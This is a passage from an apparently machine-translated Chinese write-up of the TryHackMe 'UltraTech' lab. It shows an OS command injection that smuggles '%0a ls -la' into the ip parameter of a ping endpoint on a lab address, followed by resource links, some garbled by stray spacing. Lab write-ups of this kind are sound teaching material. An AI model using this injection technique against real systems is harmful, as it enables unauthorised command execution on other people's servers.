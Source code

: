 有了这个，我们就有了超级科技机器！

# 替代方法

执行操作系统命令注入的更好方法是使用关键字`%0a` (换行符):

```
view-source:http://10.10.193.93:8081/ping?ip=10.10.193.93 %0a ls -la
```

这将产生如下输出:

![](img/1e56cf3a2d6daf3d93a758c9871c6961.png)

# 资源

1.  TryHackMe—UltraTech:[https://tryhackme.com/room/ultratech1](https://tryhackme.com/room/ultratech1)
2.  巴斯拉·德米尔编写的 Pentester 命令注入指南:[https://blog . cobalt . io/a-pentesters-Guide-to-Command-Injection-df 2657 c 8 C1 ad](https://blog.cobalt.io/a-pentesters-guide-to-command-injection-df2657c8c1ad)
3.  Docker 权限提升:[https://keiran . scot/Privilege-Escalation-with-docker-56dc 682 a6 e 17](https://keiran.scot/privilege-escallation-with-docker-56dc682a6e17)

一定要看看我在 https://github.com/0xNirvana[的其他作品和评论](https://github.com/0xNirvana)